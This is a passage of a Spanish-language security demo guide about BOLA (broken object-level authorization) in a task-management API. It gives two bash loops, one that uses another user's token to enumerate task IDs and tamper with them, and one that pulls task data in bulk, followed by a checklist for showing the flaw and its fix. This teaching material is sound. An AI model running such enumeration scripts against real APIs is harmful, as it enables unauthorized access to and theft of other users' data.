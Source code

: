 ## 💡 **ESCENARIOS DE ATAQUE ADICIONALES** (Contenido Bonus)

### Ataque de Enumeración de ID:
```bash
# El atacante prueba IDs secuenciales
for i in {1..10}; do
  curl -X PUT http://localhost:3000/api/tareas/$i/completar \
    -H "Authorization: Bearer $BOB_TOKEN" \
    -H "Content-Type: application/json" \
    -d '{"comentario":"Ataque de enumeración"}' 2>/dev/null | grep "exitosamente" && echo "Tarea $i vulnerable"
done
```

### Extracción Masiva de Datos:
```bash
# Si los endpoints GET también fueran vulnerables (no en esta demo)
for i in {1..100}; do
  curl -X GET http://localhost:3000/api/tareas/$i \
    -H "Authorization: Bearer $BOB_TOKEN" 2>/dev/null | jq '.titulo' 2>/dev/null
done
```

---

## ✅ **LISTA DE VERIFICACIÓN DE LA DEMO**

- [ ] Rama vulnerable desplegada
- [ ] Usuarios de prueba creados (Alice y Bob)
- [ ] Tareas creadas para ambos usuarios
- [ ] Ataque BOLA demostrado exitosamente
- [ ] Cambiado a rama segura
- [ ] Ataque bloqueado en versión segura
- [ ] Detalles técnicos explicados
- [ ] Estrategias de prevención discutidas
- [ ] Preguntas de la audiencia respondidas

---

**🎯 Mensaje Clave:** BOLA es la vulnerabilidad de seguridad API #1, pero es completamente prevenible con verificaciones de autorización adecuadas en cada capa de tu aplicación.

